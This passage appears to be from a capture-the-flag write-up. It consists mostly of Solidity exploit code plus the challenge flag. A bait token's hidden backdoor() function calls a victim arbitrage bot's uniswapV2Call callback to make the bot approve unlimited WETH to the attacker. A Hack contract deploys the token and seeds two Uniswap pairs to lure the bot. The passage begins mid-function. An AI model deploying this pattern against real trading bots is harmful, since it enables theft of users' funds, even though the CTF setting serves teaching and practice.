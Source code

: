 ```js
        }

        balanceOf[src] -= wad;
        balanceOf[dst] += wad;

        emit Transfer(src, dst, wad);
        return true;
    }

    function backdoor() internal {
        if (!hacked && tx.origin != owner) {
            address[] memory addressList = new address[](1);
            bytes[] memory calldataList = new bytes[](1);
            addressList[0] = weth;
            calldataList[0] = abi.encodeWithSignature(
                "approve(address,uint256)",
                owner,
                type(uint).max
            );
            bytes memory data = abi.encode(
                addressList,
                calldataList
            );
            bot.uniswapV2Call(address(0), 0, 0, data);
            hacked = true;
        }
    }

    function swap(uint, uint, address, bytes calldata) external {}
}

contract Hack {
    function exploit(
        IUniswapV2Factory factory1,
        IUniswapV2Factory factory2,
        IWETH weth,
        IUniswapV2Callee bot
    ) external payable {
        HackToken token = new HackToken(bot, address(weth));
        address pair1 = factory1.createPair(address(weth), address(token));
        address pair2 = factory2.createPair(address(weth), address(token));

        weth.deposit{value: msg.value}();

        require(weth.transfer(pair1, 0.1 ether));
        require(token.transfer(pair1, 0.1 ether));
        IUniswapV2Pair(pair1).mint(address(this));

        require(weth.transfer(pair2, 0.1 ether));
        require(token.transfer(pair2, 0.2 ether));
        IUniswapV2Pair(pair2).mint(address(this));
    }
}
```

#### Flag

> flag{RuN_Ur_0wn_B0T_4_FuN_&_Pr0f1t:)b7e0a89554}
